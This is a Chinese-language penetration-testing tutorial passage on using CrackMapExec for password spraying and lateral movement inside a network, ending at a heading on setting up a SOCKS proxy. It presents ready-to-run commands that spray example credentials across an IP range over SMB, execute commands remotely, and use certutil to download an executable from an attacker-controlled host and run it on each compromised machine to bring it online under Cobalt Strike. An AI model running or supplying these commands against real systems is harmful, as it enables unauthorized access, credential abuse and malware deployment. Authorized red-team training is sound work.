 ## 6.2. CrackMapExec介绍

在内网渗透中，能获取到主机管理员账号密码，将会使我们横向事半功倍，尤其是在大内网环境中，密码复用率很高，一波喷洒，能助力你拿到一波主机，对拿到的主机再次抓取密码，再用新拿到的密码喷洒一波......，如此反复。密码喷洒的思路就是这样：不断收集内网账号密码，不断去喷洒。这时我们就需要类似CrackMapExec这样的密码喷洒工具，对其内网进行密码喷洒。

[CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)

[官方手册](https://mpgn.gitbook.io/crackmapexec/)

### 6.2.1. 常见使用方式

当然这里还有很多的操作，这里只是演示一部分。

```
密码喷射域登录(验证用户名密码是否正确)：
proxychains crackmapexec smb 192.168.20.10-30 -u administrator -p 'admin@123'

密码喷射本地登录(验证用户名密码是否正确)：
proxychains crackmapexec smb 192.168.20.10-30 -u administrator -p 'admin@123' --local-auth

密码喷射本地登录命令执行：
proxychains crackmapexec smb 192.168.20.10-30 -u administrator -p 'admin@123' -x 'whoami' --local-auth

cs上线为反向连接，需要代理转发，转发上线
密码喷射本地登录命令执行上线：
proxychains crackmapexec smb 192.168.20.10-30 -u administrator -p 'admin@123' -x 'cmd.exe /c certutil -urlcache -split -f http://192.168.20.20/2222.exe c:/2222.exe & c:/2222.exe' --local-auth


密码喷射域登录命令执行上线：
proxychains crackmapexec smb 192.168.20.10-30 -u administrator -p 'admin@123' -x 'cmd.exe /c certutil -urlcache -split -f http://192.168.20.20/2222.exe c:/2222.exe & c:/2222.exe'

密码喷射本地&域登录命令执行全自动上线：
写两个字典，一个放用户名，另一个放密码
proxychains crackmapexec smb 192.168.20.10-30 -u user.txt -p pass.txt -x 'cmd.exe /c certutil -urlcache -split -f http://192.168.20.20/2222.exe c:/2222.exe & c:/2222.exe'
```

### 6.2.2. 实操演示

这里首先是获取其中一个system权限，然后设置代理，让工具能够连接上内网，才能对内网进行测试。

#### 6.2.2.1. 设置转发代理

这里设置一个socks转发代理。
